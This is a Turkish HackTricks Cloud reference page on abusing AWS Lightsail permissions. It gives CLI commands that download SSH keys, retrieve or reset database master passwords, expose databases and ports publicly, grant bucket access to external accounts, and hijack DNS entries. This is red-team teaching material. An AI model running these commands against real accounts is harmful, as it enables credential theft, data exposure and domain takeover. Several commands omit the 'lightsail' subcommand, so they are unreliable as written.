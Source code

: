 # AWS - Lightsail Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Lightsail

Lightsail hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Lightsail'in **kullanıcıya ait IAM rollerini kullanmadığını** ancak AWS yönetilen bir hesaba ait olduğunu belirtmek önemlidir, bu nedenle bu hizmeti privesc için kötüye kullanamazsınız. Ancak, **kod, API anahtarları ve veritabanı bilgileri** gibi hassas veriler bu hizmette bulunabilir.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Bu izin, örneklere erişmek için SSH anahtarlarını almanıza olanak tanır:
```
aws lightsail download-default-key-pair
```
**Olası Etki:** Örneklerin içinde hassas bilgileri bulmak.

### `lightsail:GetInstanceAccessDetails`

Bu izin, örneklere erişmek için SSH anahtarları oluşturmanıza olanak tanır:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Olası Etki:** Örneklerin içinde hassas bilgileri bulmak.

### `lightsail:CreateBucketAccessKey`

Bu izin, size kovaya erişim anahtarı almanıza olanak tanır:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Olası Etki:** Kova içinde hassas bilgileri bulmak.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Bu izin, veritabanına erişim için kimlik bilgilerini almanıza olanak tanır:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Olası Etki:** Veritabanında hassas bilgileri bulmak.

### `lightsail:UpdateRelationalDatabase`

Bu izin, veritabanına erişim için şifreyi değiştirmenize olanak tanır:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Eğer veritabanı kamuya açık değilse, bu izinlerle kamuya açık hale getirebilirsiniz

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Olası Etki:** Veritabanında hassas bilgileri bulma.

### `lightsail:OpenInstancePublicPorts`

Bu izin, portları İnternete açmaya olanak tanır.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Olası Etki:** Hassas portlara erişim.

### `lightsail:PutInstancePublicPorts`

Bu izin, portları İnternet'e açmaya olanak tanır. Bu çağrının, belirtilmeyen herhangi bir açılan portu kapatacağını unutmayın.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Olası Etki:** Hassas portlara erişim.

### `lightsail:SetResourceAccessForBucket`

Bu izin, bir örneğe ek kimlik bilgisi olmadan bir kovaya erişim verme imkanı tanır.

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Potansiyel Etki:** Hassas bilgilere sahip bucket'lara potansiyel yeni erişim.

### `lightsail:UpdateBucket`

Bu izinle bir saldırgan, kendi AWS hesabına bucket'lar üzerinde okuma erişimi verebilir veya bucket'ları herkes için kamuya açık hale getirebilir:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Potansiyel Etki:** Hassas bilgilere sahip bucket'lara potansiyel yeni erişim.

### `lightsail:UpdateContainerService`

Bu izinlerle bir saldırgan, konteyner hizmetinden özel ECR'lere erişim verebilir.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Olası Etki:** Özel ECR'den hassas bilgileri elde etme

### `lightsail:CreateDomainEntry`

Bu izne sahip bir saldırgan, alt alan adı oluşturabilir ve bunu kendi IP adresine yönlendirebilir (alt alan adı ele geçirme), ya da kendisine alan adından e-posta sahteciliği yapma izni veren bir SPF kaydı oluşturabilir, hatta ana alan adını kendi IP adresine ayarlayabilir.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Olası Etki:** Bir alan adını ele geçirmek

### `lightsail:UpdateDomainEntry`

Bu izne sahip bir saldırgan, alt alan adı oluşturabilir ve bunu kendi IP adresine yönlendirebilir (alt alan adı ele geçirme), ya da alan adından e-postaları sahtelemek için bir SPF kaydı oluşturabilir, hatta ana alan adını kendi IP adresine ayarlayabilir.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potansiyel Etki:** Bir alanın ele geçirilmesi

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
